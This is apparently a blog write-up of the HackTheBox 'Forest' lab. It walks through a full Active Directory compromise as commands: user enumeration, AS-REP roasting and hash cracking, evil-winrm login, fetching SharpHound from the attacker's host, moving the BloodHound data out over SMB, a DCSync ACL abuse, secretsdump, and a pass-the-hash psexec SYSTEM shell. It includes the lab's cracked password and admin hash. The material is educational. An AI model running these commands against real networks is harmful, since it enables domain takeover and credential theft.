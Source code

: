```yaml
---
layout: post
title: "Forest"
date: 2024-12-28
author: d0s3nt
categories: [Writeup, HackTheBox, Active Directory]
tags: [htb, writeup, security, ad, windows]
pin: true
math: true
mermaid: true
image:
  path: /assets/Hack-The-Box-logo.png
  lqip: data:image/webp;base64,UklGRpoAAABXRUJQVlA4WAoAAAAQAAAADwAABwAAQUxQSDIAAAARL0AmbZurmr57yyIiqE8oiG0bejIYEQTgqiDA9vqnsUSI6H+oAERp2HZ65qP/VIAWAFZQOCBCAAAA8AEAnQEqEAAIAAVAfCWkAALp8sF8rgRgAP7o9FDvMCkMde9PK7euH5M1m6VWoDXf2FkP3BqV0ZYbO6NA/VFIAAAA
  alt: Hackthebox Image
---
```




as most  of boxes, I will start with nmap

```bash
sudo nmap -sC -sV -p-  -T4 10.10.10.161 -oN FOREST
``` 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522201952.png)
kerberos ,ldap ,smb, rpc   that's a DC but without DNS (port 53 ) which is weird for me

let's check null session against smb and ldap and rpc

ldap null session is allowed  
```bash
nxc ldap 10.10.10.161  -u '' -p ''  --users
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522202946.png

we can enumerate users with null session for ldap and rpc 
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522203256.png)



let's create a wordlists and try `asreproasting`
```bash
rpcclient 10.10.10.161 -U  '' -N -c  enumdomusers | cut -d '[' -f 2 | cut -d ']' -f 1
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204005.png)


`asreproasting`
```bash
nxc ldap 10.10.10.161  -u users.txt -p ''  --asreproast asreproast 
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204136.png)

`hashcat` + rockyou.txt
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522204214.png)

enumerate using `ldapdomaindump`
```bash
python3 ldapdomaindump.py --user 'HTB\svc-alfresco' --password s3rvice --outdir ldapdomaindump 10.10.10.161
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213314.png)

if we took a look on the user `svc-alfresco`
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213429.png)
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213602.png)

our  controlled user is member of the group `Remote Management Users`
so we can use `evil-winrm` to login
```bash
evil-winrm -i 10.10.10.161 -u 'svc-alfresco' -p s3rvice
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522213808.png)

when I got creds , I tried `bloodhound-python` but that didn't work because of the stupid DNS (IT'S ALWAYS DNS!)
now I will use sharphound.exe
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214203.png)
on the windows box 
```bash
wget -Uri http://10.10.14.15/SharpHound.exe -Outfile SharpHound.exe
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214319.png)

```bash
.\SharpHound.exe -c all
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214543.png)

now we have bloodhound.zip files , let's move it to our machine , the easiest way  to do that is by hosting a smbserver using impacket

```bash
impacket-smbserver -smb2support share .
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522214723.png)

```
move 20240522135040_BloodHound.zip \\10.10.14.15\share
``` 
and we should have the file on our machine 


now we could use bloodhound  
great article about setting up bloodhound  https://blog.spookysec.net/Deploying-BHCE/

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522221736.png)

 we could use `genericall` to add our user to the exchange group
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522221909.png)

```bash
net rpc group addmem "EXCHANGE WINDOWS PERMISSIONS" "d0s3nt" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"
```

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222023.png)
we could check using 
```bash
net rpc group members "EXCHANGE WINDOWS PERMISSIONS" -U "HTB.LOCAL"/"svc-alfresco"%"s3rvice" -S "10.10.10.161"`
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222059.png)

we can use `WriteDacl` to add ourself the necssary ACL to perform `DCSync`

![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222628.png)
setting Up this tool was nightmare, I [fellow this](https://www.youtube.com/watch?v=O_VeRoT1f1k)
I found the [script here](https://github.com/ShutdownRepo/impacket/blob/04518279ef663e80195b61d4d864d6e9e8ac5d9f/examples/dacledit.py)

```bash
dacledit.py -action 'write' -rights 'DCSync' -principal 'svc-alfresco' -target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522222912.png)
nb : if it didn't work re run the net rpc command to add the user to the exchange groupe again
```bash
impacket-secretsdump HTB.LOCAL/svc-alfresco:s3rvice@10.10.10.161
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522223613.png)
using the hash we could get shell as SYSTEM using psexec

```bash
impacket-psexec HTB.LOCAL/administrator@10.10.10.161 -hashes: 32693b11e6aa90eb43d32c72a07ceea6
```
![/home/user/myblog/_site](/assets/img/posts/Forest/Pasted image 20240522224115.png)


if we are in a real word scenario we could backtrack our modification by 
```bash
dacledit.py -action 'remove' -rights 'DCSync' -principal 'svc-alfresco'-target-dn 'DC=HTB,DC=LOCAL' 'HTB.LOCAL'/'svc-alfresco':'s3rvice'
```

when I was doing the box powerview function `Add-DomainObjectAcl` didn't work and hang on evil-wirm without response after watching ippsec , seems that the command on bloodhound graphing tool wasn't correct which is weird 

[this should work](https://burmat.gitbook.io/security/hacking/domain-enumeration-+-exploitation)
```bash
Add-DomainObjectAcl -TargetIdentity "DC=burmatco,DC=local" -PrincipalIdentity useracct1 -Rights DCSync
```
